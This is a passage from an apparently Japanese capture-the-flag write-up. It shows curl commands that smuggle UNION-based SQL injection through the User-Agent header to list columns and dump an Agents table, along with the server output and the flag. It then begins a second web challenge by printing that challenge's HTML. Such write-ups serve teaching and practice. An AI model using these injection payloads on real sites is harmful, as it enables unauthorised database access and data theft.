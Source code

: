 ```
$ curl https://(省略)/login -A "' union select group_concat(column_name), 2 from information_schema.columns where table_name='Agents';#"
<!DOCTYPE html>
<html>
<head>
        <title>Super Secret Agents Login</title>
</head>
<body style="padding: 50px">
        <p>Welcome, Name,UA</p>
</body>
</html>
```

`Name` と `UA` というカラムが存在するようです。内容を取得しましょう。

```
$ curl https://(省略)/login -A "' union select group_concat(Name), 2 from Agents limit 100;#"
<!DOCTYPE html>
<html>
<head>
        <title>Super Secret Agents Login</title>
</head>
<body style="padding: 50px">
        <p>Welcome, GRU,vector but elon musk&#39;s brother,actf{nyoom_1_4m_sp33d},wile e. coyote,PLANKTON,mort,shaggy, destroyer of worlds,matt, lord of fitness,admin</p>
</body>
</html>
```

フラグが得られました。

```
actf{nyoom_1_4m_sp33d}
```

## [Web 120] Defund's Crypt (303 solves)
> One year since defund's descent. One crypt. One void to fill. Clam must do it, and so must you.
> 
> Author: aplet123

与えられた URL にアクセスすると、以下のような HTML が返ってきました。

```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width,initial-scale=1">
        <link href="https://fonts.googleapis.com/css?family=Inconsolata|Special+Elite&display=swap" rel="stylesheet">
        <link rel="stylesheet" href="/style.css">
        <title>Defund's Crypt</title>
    </head>
    <body>
        <!-- Defund was a big fan of open source so head over to /src.php -->
        <!-- Also I have a flag in the filesystem at /flag.txt but too bad you can't read it -->
        <h1>Defund's Crypt<span class="small">o</span></h1>
                <img src="crypt.jpg" height="300"/>
        <form method="POST" action="/" autocomplete="off" spellcheck="false" enctype="multipart/form-data">
            <p>Leave a memory:</p>
            <input type="file" id="imgfile" name="imgfile">
            <label for="imgfile" id="imglbl">Choose an image...</label>
            <input type="submit" value="Descend">
        </form>
        <script>
```